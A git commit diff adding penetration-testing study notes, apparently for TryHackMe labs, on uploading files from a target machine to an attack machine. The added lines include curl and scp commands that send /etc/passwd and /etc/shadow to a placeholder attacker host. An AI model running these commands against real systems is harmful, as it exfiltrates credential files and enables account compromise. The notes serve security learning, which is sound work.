

Before and after one commit to ziadhamdy88/THM, a Markdown page: Notes/File Transfer.md, the part around the change. Shown at 92% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Linux file upload notes added!

```diff
--- a/Notes/File Transfer.md
+++ b/Notes/File Transfer.md
@@ -114,4 +114,29 @@
 			- Get SSH listening port using `netstat -lnpt`
 		- Download file using `scp plaintext@<server-ip>:/root/myroot.txt .`
 		- **NOTE: Create a temporary user account for file transfers and avoid using primary credentials or keys on a remote computer**
--
+- ### *Upload*
+	- Used for situations like binary exploitation and packet capture analysis, where we must upload files from target machine to attack machine.
+	- ##### *Web Upload*
+		- **Installing a Configured Web Server with Upload**
+			- `uploadserver` which is an extended module of the Python `HTTP.server` module which includes a file upload page.
+			- Install using `sudo python3 -m pip install --user uploadserver`.
+		- Create a certificate (self-signed) using `openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'`.
+		- The web server should not host the certificate, it is recommended to create a new directory to host the file for the web server.
+		- Create directory for server using `mkdir https && cd https`.
+		- Start the server using `sudo python3 -m uploadserver 443 --server-certificate ~/server.pem`.
+		- From the target machine upload the files using `curl -X POST https://<attack-ip>/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure`.
+		- `--insecure` is used because a self-signed certificate is used that we trust.
+	- ##### *Alternative Way of File Transfer Method*
+		- **Start Web Server**
+			- **Using Python**
+				- Using Python 3 `python3 -m http.server`.
+				- Using Python 2.7 `python2.7 -m http.server`.
+			- **Using PHP**
+				- `php -S 0.0.0.0:8000`
+			- **Using Ruby**
+				- `ruby -run -ehttpd . -p8000`
+		- **Download the File from Target Machine**
+			- `wget <target-ip>:8000/filetotransfer.txt`
+	- ##### *SCP Upload*
+		- Some companies allow the SSH protocol (TCP/22) for outbound connections, in this case, an SSH server can be used with SCP to upload files.
+		- `scp /etc/passwd <username>@<attack-ip>:<path-to-upload-in>`
```
